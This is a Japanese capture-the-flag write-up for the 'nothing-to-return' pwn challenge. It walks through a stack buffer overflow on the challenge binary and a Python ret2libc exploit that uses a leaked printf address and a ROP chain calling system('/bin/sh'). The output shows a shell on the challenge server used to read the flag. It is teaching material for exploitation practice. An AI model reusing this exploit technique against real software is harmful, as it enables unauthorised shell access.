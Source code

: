 # nothing-to-return:Pwn:382pts
Now this challenge has a binary of a very small size.  
"The binary has no useful gadgets! There is just nothing to return to!"  
nice try... ntr  

`nc 34.30.126.104 5000`  
[ld-linux-x86-64.so.2](ld-linux-x86-64.so.2)　　　　[libc.so.6](libc.so.6)　　　　[nothing-to-return](nothing-to-return)  

# Solution
配布ファイルを実行すると、入力サイズを聞かれその後にデータを入力できるようだ。  
printfのアドレスも謎機能としてリークしている。  
明らかなret2libcだ。  
```bash
$ checksec --file=./nothing-to-return --format=csv
Partial RELRO,No Canary found,NX enabled,No PIE,No RPATH,RUNPATH,Symbols,No,0,3,./nothing-to-return
$ ./nothing-to-return
printf is at 0x7fb6554ef250
Hello give me an input
Input size:
10
Enter your input:
AAAAAAAAA
I'm returning the input:
AAAAAAAAA
$ ./nothing-to-return
printf is at 0x7fde039e5250
Hello give me an input
Input size:
1024
Enter your input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I'm returning the input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault
```
サイズを大きくしてやると落ちるので、BOFがありそうだ。  
パディングを計算してやる。  
```bash
$ echo -ne '1024\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF' | strace -i ./nothing-to-return
~~~
[00007f06433e8664] write(1, "I'm returning the input:", 24I'm returning the input:) = 24
[00007f06433e8664] write(1, "\n", 1
)    = 1
[00007f06433e8664] write(1, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 78AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF) = 78
[00007f06433e8664] write(1, "\n", 1
)    = 1
[0000464544434241] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x464544434241} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```
72文字で埋まるようだ。  
謎機能のprintfのアドレスからlibcのbaseアドレスがわかるので、systemを呼んでやればよい。  
以下のexploit.pyでシェルをとる。  
```python
from ptrlib import *

chall = "./nothing-to-return"
libc = "./libc.so.6"

elf = ELF(chall)
libc = ELF(libc)

#sock = Process(chall)
sock = Socket("nc 34.30.126.104 5000")

printf_leak = sock.recvuntil("\n")
printf_addr = int(printf_leak.replace(b"printf is at ", b"").replace(b"\n", b""), 16)

libc.base = printf_addr - libc.symbol("printf")

sock.recvuntil("Input size:\n")
sock.sendline(b"1024")
sock.recvuntil("Enter your input:\n")

payload = b"A" * 72
payload += p64(next(libc.gadget("ret;")))
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

sock.sendline(payload)
sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to 34.30.126.104:5000
[+] base: New base address: 0x7b269ae05000
[ptrlib]$ I'm returning the input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA´\xc3\xa2&{
ls
[ptrlib]$ flag
ld-linux-x86-64.so.2
libc.so.6
run
cat flag
[ptrlib]$ uoftctf{you_can_always_return}
```
flagが得られた。  

## uoftctf{you_can_always_return}